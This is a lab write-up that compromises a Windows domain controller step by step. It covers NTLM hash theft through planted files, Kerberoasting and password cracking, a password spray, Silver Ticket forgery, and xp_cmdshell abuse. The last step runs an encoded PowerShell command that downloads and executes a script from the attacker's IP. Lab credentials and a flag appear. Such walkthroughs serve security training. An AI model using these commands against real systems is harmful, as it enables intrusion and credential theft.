## Entry

Create host file

```bash
nxc smb 10.10.71.143 --generate-hosts-file 
```

writable share

```bash
➜  breach nxc smb 10.10.71.143 -u 'Guest' -p '' --shares                                     
SMB         10.10.71.143    445    BREACHDC         [*] Windows Server 2022 Build 20348 x64 (name:BREACHDC) (domain:breach.vl) (signing:True) (SMBv1:False)
SMB         10.10.71.143    445    BREACHDC         [+] breach.vl\Guest: 
SMB         10.10.71.143    445    BREACHDC         [*] Enumerated shares
SMB         10.10.71.143    445    BREACHDC         Share           Permissions     Remark
SMB         10.10.71.143    445    BREACHDC         -----           -----------     ------
SMB         10.10.71.143    445    BREACHDC         ADMIN$                          Remote Admin
SMB         10.10.71.143    445    BREACHDC         C$                              Default share
SMB         10.10.71.143    445    BREACHDC         IPC$            READ            Remote IPC
SMB         10.10.71.143    445    BREACHDC         NETLOGON                        Logon server share 
SMB         10.10.71.143    445    BREACHDC         share           READ,WRITE      
SMB         10.10.71.143    445    BREACHDC         SYSVOL                          Logon server share 
SMB         10.10.71.143    445    BREACHDC         Users           READ            
```

i used https://github.com/Greenwolf/ntlm_theft

```bash
(.venv) ➜  ntlm_theft git:(master) ✗ python3 ntlm_theft.py --generate all --server 10.8.2.152 --filename @irem
Created: @irem/@irem.scf (BROWSE TO FOLDER)
Created: @irem/@irem-(url).url (BROWSE TO FOLDER)
Created: @irem/@irem-(icon).url (BROWSE TO FOLDER)
Created: @irem/@irem.lnk (BROWSE TO FOLDER)
Created: @irem/@irem.rtf (OPEN)
[SNIP]
```




and got `local.txt`

```bash
➜  breach smbclientng -u Julia.Wong -p 'Computer1' --host breach.vl
■[\\breach.vl\share\transfer\julia.wong\]> ls
d-------     0.00 B  2022-02-17 06:24  .\
d-------     0.00 B  2025-05-29 17:11  ..\
-a------    36.00 B  2022-02-17 06:25  local.txt
■[\\breach.vl\share\transfer\julia.wong\]> get local.txt
'local.txt' ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 36/36 bytes • ? • 0:00:00
■[\\breach.vl\share\transfer\julia.wong\]> exit
➜  breach cat local.txt 
VL{5ad5861a4669ba18796ea4513a6a892b}
```

lets grab all users and check if we have any different description

```bash
nxc smb 10.10.71.143 -u 'Julia.Wong' -p 'Computer1' --users
```



we have mssql running here



let see if we can dump BH data

```bash
➜  breach nxc ldap 10.10.71.143 -u 'Julia.Wong' -p 'Computer1'     
LDAP        10.10.71.143    389    BREACHDC         [*] Windows Server 2022 Build 20348 (name:BREACHDC) (domain:breach.vl)
LDAP        10.10.71.143    389    BREACHDC         [+] breach.vl\Julia.Wong:Computer1 
```

yes we can

```bash
bloodhound-python -ns 10.10.71.143 --dns-tcp -u 'Julia.Wong' -p 'Computer1' --zip -c All -d breach.vl
```



There is nothing interesting at BH yet lets check `kerberoastable` or `asrep` users



bommm

```bash
nxc ldap 10.10.71.143 -u 'Julia.Wong' -p 'Computer1' --kerberoasting kerberoat.txt
```



```bash
➜  breach john svc_mssql_hash --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Trustno1         (?) 
```

lets do password spray

```bash
➜  breach nxc smb 10.10.71.143 -u users.txt -p 'Trustno1' --continue-on-success
```



Lets try on mssql

```bash
➜  breach nxc mssql 10.10.71.143 -u svc_mssql -p 'Trustno1'       
MSSQL       10.10.71.143    1433   BREACHDC         [*] Windows Server 2022 Build 20348 (name:BREACHDC) (domain:breach.vl)
MSSQL       10.10.71.143    1433   BREACHDC         [+] breach.vl\svc_mssql:Trustno1
```

and login

```bash
mssqlclient.py svc_mssql@10.10.71.143 -windows-auth
```



But we are **Guest** here.

## Silver Ticket

Aight, now that we got creds for the account runnin' the MSSQL service, we can hit it with a **Silver Ticket** attack.

Here’s the game:

When you throw a TGS at the MSSQL service, it don’t care who sent it—as long as it’s signed with the NT hash of `svc_mssql`, it’ll trust it. Since we got the password, we can cook up the hash and fake a ticket that makes us look like *anybody*, even a domain admin.

And you know domain admins got keys to everything, including MSSQL. That’s our in.

To make that ticket:

```bash
lookupsid.py breach.vl/svc_mssql:'Trustno1'@breach.vl 
```



and 

```bash
ticketer.py -nthash '69596C7AA1E8DAEE17F8E78870E25A5C' -domain-sid 'S-1-5-21-2330692793-3312915120-706255856' -domain breach.vl -spn 'MSSQLSvc/breach.vl:1433' -user-id 500 Administrator
```



Lets Export it and login mssql again

```bash
➜  breach mssqlclient.py -k -no-pass breach.vl -windows-auth
/usr/local/bin/mssqlclient.py:4: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  __import__('pkg_resources').run_script('impacket==0.13.0.dev0+20250523.184829.f2f2b367', 'mssqlclient.py')
Impacket v0.13.0.dev0+20250523.184829.f2f2b367 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(BREACHDC\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(BREACHDC\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL (BREACH\Administrator  dbo@master)> 
```

now we can enable xp_cmdshell and load our beacon.



and we got it.



## SeImpersonatePrivilege

```bash
execute-assembly /home/elliot/tools/godpotato.exe -cmd "powershell -enc aQB3AHIAIAAtAHUAcwBlAGIAYQBzAGkAYwBwAGEAcgBzAGkAbgBnACAALQB1AHIAaQAgAGgAdAB0AHAAOgAvAC8AMQAwAC4AOAAuADIALgAxADUAMgAvAGEALgBwAHMAMQB8AGkAZQB4AAoA"
```



GG!